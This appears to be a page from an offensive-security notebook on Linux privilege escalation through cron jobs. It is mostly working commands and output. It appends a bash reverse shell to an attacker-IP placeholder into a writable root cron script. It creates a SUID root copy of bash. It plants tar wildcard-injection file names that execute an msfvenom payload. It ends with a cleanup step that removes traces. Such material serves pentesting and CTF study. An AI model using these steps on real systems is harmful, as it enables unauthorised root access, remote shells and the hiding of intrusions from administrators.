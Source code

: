 # Unix Shell

## 01 - File Permissions

After performing the Enumeration and Discovery phase for [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/01 - Enumeration and Discovery/Linux/Host/01 - Internal Reconnaissance/03 - Scheduled Tasks/Cron Job/Manual/Living off the Land|Cron Jobs]] and [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/01 - Enumeration and Discovery/Linux/Host/Files and Directories/Living off the Land|Writable Folders]].

```
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
$ echo "bash -i >& /dev/tcp/<attacker_ip>/<LPORT> 0>&1" >> /usr/local/bin/overwrite.sh
```

You can find more [[Bash|bash one-liners]] regarding with this section.

## 02 - PATH Environment Variable

Another way we can utilize this vulnerability is way using the same privilege escalation technique for [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/03 - Privilege Escalation/Linux/SUID and SGID/README|README]].

We create a new shell script to copy the `/bin/bash` binary and change file permissions with a sticky-bit SUID and SGID.

```
$ cp /usr/local/bin/overwrite.sh /tmp/overwrite.sh.bak
$ cat overwrite.sh
#!/bin/bash  
  
cp /bin/bash /tmp/cronjob  
chmod +xs /tmp/cronjob
$ chmod +x overwrite.sh
$ ls -lah /tmp/cronjob
-rwsr-sr-x 1 root root 905K Jan 19 15:28 /tmp/cronjob
$ /tmp/cronjob -p
cronjob-4.1# whoami
root
cronjob-4.1# exit
exit
```

## 03 - Wildcards

### 3.1 - Detect

One of the few mistakes due to negligence for not taking into account when backing things up with root privileges.

```
$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Notice the wildcard that runs with a character `*` in the home directory. If we search about the GTFOBins website to exploit the sudo privileges for the archiving program called [tar](https://gtfobins.github.io/gtfobins/tar/).

### 3.2 - Exploit

Generate a payload with msfvenom and look to the [[Global References MSFVenom|MSFVenom Regular Reverse Shell Payloads]] section then transfer the payload to the compromised machine and look more into **File Transfers and Data Exfiltration** section.

```
$ chmod +x shell.elf
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
$ ls -lh
total 0
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint=1
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint-action=exec=shell.elf
```

### 3.3 - Cleanup

Launch a reverse shell handler like netcat, msfconsole or any handler of your choosing. Once you've received a connection. Cleanup the trace you've left.

```
$ rm /home/user/shell.elf
$ rm /home/user/--checkpoint=1
$ rm /home/user/--checkpoint-action\=exec\=shell.elf
```

---
## References

- [Linux Privilege Escalation by Exploiting Cron Jobs](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)

- [Crontab.guru](https://crontab.guru)